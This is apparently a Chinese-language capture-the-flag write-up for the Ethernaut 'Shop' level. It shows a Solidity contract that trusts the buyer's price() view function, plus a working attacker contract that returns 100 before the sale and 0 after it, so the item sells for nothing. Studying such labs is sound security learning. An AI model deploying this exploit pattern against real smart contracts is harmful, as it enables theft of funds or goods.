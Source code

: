 ## Level_21.Shop

要求：

> 以很低的价格购买到商品；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

### 分析

和之前的一关一样，利用` isSold `来控制` price `的返回值，注意这边` price() `是` view `的，所以只能通过控制流来实现；



### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp is Buyer{
    Shop shop;
    constructor(address addr){
        shop = Shop(addr);
    }
    function price() external view override returns (uint256){
        if (shop.isSold() == false){
            return 100;
        } else {
            return 0;
        }
    }
    function Attack() public {
        shop.buy();
    }
}
```

![image-20250207002552644](./assets/image-20250207002552644.png)

